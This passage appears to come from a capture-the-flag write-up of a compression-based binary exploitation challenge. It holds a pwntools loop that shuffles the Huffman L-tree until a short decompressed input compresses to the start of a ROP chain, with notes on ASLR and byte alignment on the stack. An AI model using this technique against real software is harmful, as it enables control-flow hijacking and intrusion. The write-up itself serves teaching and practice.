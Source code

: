```python
# Shuffle tree until a decompressed payload is < 456 bytes

for i in range(100):
    log.debug(f"Trying shuffle {i}")
    io.sendlineafter(b"Please select an option: ", b"4") # Shuffle
    io.sendlineafter(b"Please select an option: ", b"2") # Decompress
    io.sendlineafter(b"Please enter the input string (hex format): ", payload.hex().encode())
    res = io.recvuntil(b"1. Compress").decode()
    if "[Error]" in res:
        continue

    try:
        payload_size = int(res.split("Decompressed size       : ")[1].split(" bytes")[0])
    except Exception as e:
        # Sometimes stderr is flushed after stdout, so if there really was an error, we didn't handle it earlier, so we just handle it now
        continue

    if payload_size >= 456:
        continue

    # Try to decompress and compress and expect to get a compressed payload that starts with our payload
    decompressed_payload = res.split("Output (hex)            : ")[1].split("\n")[0]

    io.sendlineafter(b"Please select an option: ", b"1") # Compress
    io.sendlineafter(b"Please enter the input string (hex format): ", decompressed_payload.encode())

    io.recvuntil(b"Output (hex)            : ")
    compressed_payload = io.recvline().decode().strip().lower()

    if compressed_payload.startswith(payload.hex()):
        # Good, we found a short decompressed payload that compresses to our payload
        break
else:
    log.warn("Failed to find decompressed payload. Re-run the exploit")
    return False
```

Sometimes, because of ASLR, libc will be loaded at bad addresses, and there doesn't exist a match by just shuffling the tree over and over again. And this is because the L-tree doesn't contain all the output literals from 0-255. In only contains some of them. For instance, it is impossible to encode `240` in the default L-tree, and we cannot change the output encodings, only which input translates to which output.

After shuffling the L-tree and finding a decompressed payload that when compressed matches the beginning of our ROP chain, we now need to find two bytes where one of them compresses to 8 bits, and the other compresses to 9 bits. The reason for finding one that compresses to 8 bits is that we need to perfectly align the compressed payload with the beginning of our ROP chain and where is it placed on the stack.
